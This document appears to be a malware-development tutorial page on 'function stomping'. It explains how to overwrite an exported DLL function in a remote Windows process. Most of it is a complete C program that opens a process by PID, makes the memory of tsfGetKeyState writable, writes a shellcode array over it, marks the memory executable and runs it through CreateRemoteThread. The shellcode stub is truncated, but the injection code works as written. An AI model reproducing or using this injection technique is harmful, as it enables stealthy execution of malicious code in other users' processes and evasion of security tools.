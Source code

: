 ```yaml
---
description: >-
  "Stomping" is when we overwrite or replace the memory of a data structure in a
  program with different data. Function stomping is a technique where we replace
  a functions logic with our own.
---
```


# Function Stomping



***

## Choosing a Target Function

When choosing a target function & module it's best to avoid modules / functions that can be risky. For example: `ntdll.dll`, `kernel32.dll`, and `kernelbase32.dll`are generally best to avoid, and should be used with caution.

_<mark style="color:red;">**IMPORTANT:**</mark>_ In order for function stomping to be performed on remote processes, the DLL that exports the targeted function must be already loaded into the target process.&#x20;

_<mark style="color:red;">**Note:**</mark>_ For shared DLL's between processes, the _**functions**_ within the DLL have the same address in each process. However, the address of the _**DLL**_ itself will differ between processes due to the different virtual address spaces.



```c
#include <stdio.h>
#include <wchar.h>
#include <windows.h>

#define TARGET_MODULE       L"TextInputFramework.dll"
#define TARGET_FUNCTION     "tsfGetKeyState" 

unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51
};

int wmain(int argc, wchar_t* argv[]) {

    HANDLE hProcess, hThread = NULL;
    HMODULE hModule = NULL;
    LPVOID lpFuncAddress = NULL;
    DWORD PID, dwOldPermissions, dwBytesWritten = 0;

    if (argc < 2) {
        wprintf(L"[!] Insufficient Arguments Passed to Main Function! \n");
        return -1;
    }

    PID = _wtoi(argv[1]); 

    hModule = LoadLibraryW(TARGET_MODULE);
    if (hModule == NULL) {
        wprintf(L"[!] LoadLibrary Failed %d\n", GetLastError());
        return -1;
    }
    lpFuncAddress = GetProcAddress(hModule, TARGET_FUNCTION);
    if (lpFuncAddress == NULL) {
        wprintf(L"[!] GetProcAddress Failed %d\n", GetLastError());
        return -1;
    }

    printf("[+] %s address: %p", TARGET_FUNCTION, lpFuncAddress);

    // Get Target Process Handle
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (hProcess == NULL) {
        wprintf(L"[!] OpenProcess Failed %d\n", GetLastError());
        return -1;
    }

    // Change Stomp Function Memory Permissions to RW
    if (!VirtualProtectEx(hProcess, lpFuncAddress, sizeof(Payload), PAGE_READWRITE, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect PAGE_READWRITE Failed %d\n", GetLastError());
        return -1;
    }

    // Copy Memory
    if (!WriteProcessMemory(hProcess, lpFuncAddress, Payload, sizeof(Payload), &dwBytesWritten)) {
        wprintf(L"[!] WriteProcesMemory Failed %d\n", GetLastError());
        return -1;
    }

    // Change Stomp Function Memory Permissions to RWX 
    if (!VirtualProtectEx(hProcess, lpFuncAddress, sizeof(Payload), PAGE_EXECUTE_READWRITE, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect PAGE_READWRITE Failed %d\n", GetLastError());
        return -1;
    }

    // Create Thread
    hThread = CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)lpFuncAddress, NULL, NULL, NULL);
    if (hThread != NULL) {
        WaitForSingleObject(hThread, INFINITE);
    }

    getchar();
    return 0;
}
```

<figure><img src="../../.gitbook/assets/Screenshot 2023-09-28 201929.png" alt=""><figcaption></figcaption></figure>
